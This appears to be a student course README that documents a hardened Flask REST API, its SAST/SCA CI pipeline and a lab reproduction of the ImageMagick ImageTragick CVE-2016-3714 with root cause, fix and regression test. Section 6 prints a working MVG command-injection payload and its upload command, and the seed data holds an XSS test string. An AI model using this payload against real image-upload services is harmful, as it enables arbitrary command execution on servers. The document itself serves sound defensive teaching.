






# Work 1 — Secure REST API with CI/CD and Real CVE Analysis

HDU IS course, Work 1. A functional REST API built with **Python / Flask**, hardened with the security controls required by the assignment, and scanned by a SAST/SCA CI pipeline. The repository also contains the reproduction, root-cause analysis, fix and regression evidence for the real CVE **CVE-2016-3714 (ImageMagick ImageTragick)**.

> Status: API, security controls, unit tests, GitHub Actions pipeline, CVE reproduction and fix, regression test and evidence screenshots are complete.

## 1. API

| Method | Path | Auth | Description |
|---|---|---|---|
| `POST` | `/auth/login` | none | Log in with `login` and `password`; returns a JWT |
| `GET` | `/api/data` | Bearer JWT | Return the list of posts (authenticated users only) |
| `POST` | `/api/data` | Bearer JWT | Create a post (third endpoint; demonstrates parameterized writes and XSS escaping) |

### Request examples

```bash
# Log in
curl -s -X POST http://127.0.0.1:5000/auth/login \
  -H "Content-Type: application/json" \
  -d '{"login":"alice","password":"Alice-Strong-Pass-1!"}'

# Read data (replace <TOKEN>)
curl -s http://127.0.0.1:5000/api/data \
  -H "Authorization: Bearer <TOKEN>"

# Create data
curl -s -X POST http://127.0.0.1:5000/api/data \
  -H "Authorization: Bearer <TOKEN>" \
  -H "Content-Type: application/json" \
  -d '{"title":"Hello","content":"First post"}'
```

`POST /api/data` was chosen as the third endpoint because it exercises the write path: parameterized `INSERT` (SQL injection protection), output escaping (XSS protection), JWT authentication and input validation. A read-only endpoint would cover fewer grading criteria.

### API test evidence

The screenshot below shows the live API responses: login returns a JWT, `GET /api/data` without a token returns 401, `GET /api/data` with the token returns 200, and `POST /api/data` with the token returns 201.



## 2. Security controls

### 2.1 SQL injection protection

All database access uses `sqlite3` parameterized queries (`?` placeholders); no SQL statement is built by string concatenation:

- `app/auth.py`: `SELECT ... WHERE username = ?`
- `app/api.py`: `SELECT`, `INSERT ... VALUES (?, ?, ?)`

`tests/test_api.py::test_sql_injection_payload_is_stored_literally` verifies that an injection payload is stored as plain text and that the schema is not damaged.

### 2.2 XSS protection

- User-controlled values are escaped on output with `markupsafe.escape` (the framework's built-in escaper); see `app/security.py::escape_text` and `app/api.py::serialize_post`.
- Seed data contains `<script>alert('stored-xss-demo')</script>`; `GET /api/data` returns `&lt;script&gt;...`, which proves escaping is applied.
- Test: `tests/test_api.py::test_xss_payload_is_escaped_in_response`.

### 2.3 Broken authentication protection

- A **JWT (HS256)** is issued after a successful login. It contains `sub`, `username`, `iat` and `exp`, and expires after 60 minutes by default.
- Protected endpoints validate `Authorization: Bearer <token>` through the `@token_required` decorator; invalid or expired tokens return 401.
- Passwords are hashed with **bcrypt** (unique salt per password) and never stored in plaintext. Failed logins always return the same `invalid credentials` message to avoid username enumeration.
- Secrets (`JWT_SECRET`, `SECRET_KEY`) are read from environment variables only; no real secret is committed to the repository.

## 3. Local development

Python 3.11+ is required.

```powershell
cd E:\MyFile\IS-Lab\Work-1
python -m venv .venv
.\.venv\Scripts\Activate.ps1
pip install -r requirements.txt -r requirements-dev.txt

$env:JWT_SECRET = "local-dev-only-jwt-secret-0123456789abcdef"
$env:SECRET_KEY = "local-dev-only-flask-secret-0123456789abcdef"

flask --app app seed
flask --app app run --port 5000
```

The API is then available at `http://127.0.0.1:5000`. Demo accounts for local testing only: `alice / Alice-Strong-Pass-1!` and `bob / Bob-Strong-Pass-2!`.

Run the tests:

```powershell
pytest -q
```

## 4. CI/CD

Workflow: `.github/workflows/ci.yml`. It runs on every push to `main` and on pull requests:

[](https://github.com/EggplantPig/WeiLixuan23320107-IS-Work-1/actions/workflows/ci.yml)

**Main job — tests + SAST + SCA:**

1. Install dependencies and run `pytest`.
2. **SAST**: `bandit -r app`, writing `reports/bandit.json` and `reports/bandit.txt`.
3. **SCA**: `safety check -r requirements.txt`, writing `reports/safety.txt`.
4. Publish a readable scan summary to the GitHub Actions job summary.
5. Upload `reports/` as a build artifact.

**Second SCA job — OWASP Dependency-Check:**

- Uses Java 17 and the official Dependency-Check CLI v12.1.0.
- Scans the project, generates HTML/JSON reports and uploads `reports/` as a separate artifact.
- Optional `NVD_API_KEY` repository secret speeds up the NVD update; the job is non-blocking because CI must still pass on networks where NVD updates are slow.

Last successful pipeline: <https://github.com/EggplantPig/WeiLixuan23320107-IS-Work-1/actions/runs/40340173832>

### CI evidence

Actions run page showing the successful SAST/SCA job:



Local SAST/SCA summaries (bandit: 0 findings; safety: no known vulnerabilities):



## 5. Project structure

```text
Work-1/
├── app/
│   ├── __init__.py      # application factory
│   ├── auth.py          # /auth/login
│   ├── api.py           # /api/data GET/POST
│   ├── db.py            # SQLite connection and schema
│   ├── security.py      # bcrypt, JWT, XSS escaping, auth decorator
│   └── seed.py          # demo data
├── tests/               # pytest unit tests
├── .github/workflows/ci.yml
├── cve/CVE-2016-3714/   # exploit, fixed files, evidence, screenshots
├── report/              # Markdown source of the report
├── requirements.txt
├── requirements-dev.txt
└── run.py
```

## 6. Real CVE: CVE-2016-3714 (ImageMagick ImageTragick)

### 6.1 CVE description

CVE-2016-3714 is a command-injection vulnerability in ImageMagick before 6.9.3-10 (and 7.x before 7.0.1-1). Several coders, including MVG, MSL and HTTPS, pass attacker-controlled values to external delegate programs without escaping shell metacharacters. A crafted image can therefore execute arbitrary commands. The vulnerable environment is Vulhub's `imagemagick/CVE-2016-3714`, which runs ImageMagick 6.9.2-10 behind a PHP upload page.

### 6.2 Start the vulnerable environment

```bash
wsl -d Ubuntu-22.04
cd /home/EggplantPig/vulhub/imagemagick/CVE-2016-3714
docker compose up -d
curl http://127.0.0.1:8080/
```

### 6.3 Reproduction steps and commands

Create the crafted MVG file:

```text
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/oops.jpg"|touch /tmp/success")'
pop graphic-context
```

Upload it to the PHP page:

```bash
curl -sS -X POST http://127.0.0.1:8080/ \
  -F "file_upload=@1.gif;filename=1.gif;type=image/gif"
```

The response is `HTTP 200` and `Image size is: 640 x 480`. The command execution happens inside the ImageMagick delegate; prove it with:

```bash
docker compose exec -T web ls -l /tmp/success
```

The marker file is created with owner `root`, proving arbitrary command execution.



### 6.4 Root cause

ImageMagick selects a coder based on the file content. For the MVG format, the `fill 'url(...)'` primitive is passed to an external delegate. In the vulnerable version the generated command is similar to:

```text
"curl" -s -k -L -o "%o" "https:%M"
```

The `%M` placeholder is replaced with the attacker-controlled URL without escaping shell metacharacters. The payload supplies `//127.0.0.1/oops.jpg"|touch /tmp/success"` as the URL. After substitution the shell sees a closed quote after the URL, a pipe, the `touch` command and a final quote that balances the template. The delegate therefore runs both `curl` and `touch`. This is an input-validation / command-injection weakness (CWE-20) in the delegate construction, not a flaw in the PHP upload page itself. The upstream fix in ImageMagick 6.9.3-10 escapes shell metacharacters before the delegate command is built.

### 6.5 Fix

The vulnerable ImageMagick version is pinned inside the Vulhub image, so the applied fix is the hardening policy recommended by the ImageTragick advisory. The policy disables the dangerous coders and is mounted read-only over the policy file used by the image:

```yaml
services:
  web:
    image: vulhub/imagemagick:6.9.2-10-php
    command: php -t /var/www/html -S 0.0.0.0:8080
    volumes:
      - ./index.php:/var/www/html/index.php:ro
      - ./policy.xml:/usr/etc/ImageMagick-6/policy.xml:ro
    ports:
      - "8080:8080"
```

The fix files are:
[`cve/CVE-2016-3714/fixed/docker-compose.yml`](cve/CVE-2016-3714/fixed/docker-compose.yml) and
[`cve/CVE-2016-3714/fixed/policy.xml`](cve/CVE-2016-3714/fixed/policy.xml).

An alternative production fix is upgrading ImageMagick to 6.9.3-10 or later (or 7.0.1-1 or later), where the delegate command is escaped.

### 6.6 Verification after the fix

```bash
cd /mnt/e/MyFile/IS-Lab/Work-1/cve/CVE-2016-3714/fixed
docker compose up -d

# Same attack
curl -sS -X POST http://127.0.0.1:8080/ \
  -F "file_upload=@../exploit/1.gif;filename=1.gif;type=image/gif"

docker compose exec -T web ls -l /tmp/success
# ls: cannot access '/tmp/success': No such file or directory

docker compose logs --tail=1
# web-1 | identify: not authorized '/tmp/php...' @ error/constitute.c/ReadImage/412.
```

The marker file is not created; the policy is loaded and ImageMagick refuses to read the file. The HTTP response remains 200, but the image size is empty because the file was not processed.



### 6.7 Regression test

```bash
curl -sS -X POST http://127.0.0.1:8080/ \
  -F "file_upload=@../exploit/normal.png;filename=normal.png;type=image/png"

# HTTP=200
# Image size is: 1 x 1
```

A normal PNG is still processed, so the policy blocks the malicious coder without breaking legitimate image handling.



### 6.8 CVE evidence files

- [`cve/CVE-2016-3714/README.md`](cve/CVE-2016-3714/README.md) — detailed write-up, commands, root cause and references
- [`cve/CVE-2016-3714/exploit/1.gif`](cve/CVE-2016-3714/exploit/1.gif) — crafted MVG payload
- [`cve/CVE-2016-3714/exploit/normal.png`](cve/CVE-2016-3714/exploit/normal.png) — regression image
- [`cve/CVE-2016-3714/fixed/`](cve/CVE-2016-3714/fixed/) — fixed compose file and policy
- [`cve/CVE-2016-3714/evidence/`](cve/CVE-2016-3714/evidence/) — captured command output
- [`cve/CVE-2016-3714/screenshots/`](cve/CVE-2016-3714/screenshots/) — attack, fix, regression, CI and scanner screenshots

## 7. References

- OWASP Top 10: <https://owasp.org/www-project-top-ten/>
- OWASP Cheat Sheet Series: <https://cheatsheetseries.owasp.org/>
- JWT introduction: <https://jwt.io/introduction>
- GitHub Actions: <https://docs.github.com/en/actions>
- Vulhub: <https://github.com/vulhub/vulhub>
- NVD CVE-2016-3714: <https://nvd.nist.gov/vuln/detail/CVE-2016-3714>
- ImageTragick: <https://imagetragick.com/>
- Exploit-DB 39767: <https://www.exploit-db.com/exploits/39767/>
